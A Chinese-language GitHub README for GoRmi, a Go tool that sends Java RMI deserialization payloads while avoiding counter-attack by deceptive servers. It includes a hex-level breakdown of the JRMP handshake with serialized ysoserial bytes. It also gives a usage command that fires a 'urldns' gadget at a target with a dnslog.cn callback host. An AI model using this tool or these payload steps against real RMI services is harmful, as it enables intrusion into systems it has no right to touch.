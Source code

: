 # GoRmi

## 介绍

该项目是通过go语言实现防止rmi利用被反置的问题。[反序列化小子捕获器-反制ysoserial](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098663&idx=1&sn=fc048826005d4786ab56679861b1c43d&chksm=803c66aeb74befb88fc8e2f5e51853f33cc207ceaa1208936b1d9892a77cf3bdeb33b884f6b1&mpshare=1&scene=23&srcid=12291XhDYwX8icWSjvPyf5zl&sharer_sharetime=1640758586260&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

通过简单的协议分析。

![image-20211230010433011](img/image-20211230010433011.png)

```java
client--->server
    4a524d4900024b
    length:7
Header:
    0x4a 0x52 0x4d 0x49 Version Protocol
Version:
    0x00 0x01
Protocol:
    StreamProtocol
    SingleOpProtocol
    MultiplexProtocol
StreamProtocol:
    0x4b
SingleOpProtocol:
    0x4c
MultiplexProtocol:
    0x4d
    
server--->client
	4e00093132372e302e302e310000xxxx  随机 为客户端的随机port
	length:16
	
client--->server
	000b 31302e32332e37312e3334 00000000      11	
	前面2个字节是后面ip的长度16进置
	xx ip xxxx
	length:17
(yso中带的)
50aced00057722000000000000000000000000000000000000000000000000000144154dc9d4e63bdf
length:41
	
server--->client
51aced0005770f01e4d810120000017e0572075e8004757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b470200007078700000000274000c48656c6c6f5365727669636574001270776e656433373233303338373837303030

client--->server
52

server--->client
53

client--->server
恶意数据
```

## 使用

在cli文件夹中进行编译，然后就可以利用

```
GoRmi.exe --ip 127.0.0.1 --port 9001 --payload urldns  --cmd "http://wb72qk.dnslog.cn"
```

项目中是通过二进制数据实现的gadgets，所以有一部分gadget不好构造(太懒了)，所以就没有全部完成。感兴趣的师傅可以进行pr操作。

谢谢！！！

## 特别说明

因为自己不擅长go语言，所以参考了大哥4ra1n的[Gososerial](https://github.com/EmYiQing/Gososerial)项目，并且在atao大哥的帮助下完成了该项目。

可能你感觉代码写的非常垃圾，确实是这样的，不过还是希望帮助到你。

## 最后
**如果感觉不错，希望给出你宝贵的star。**
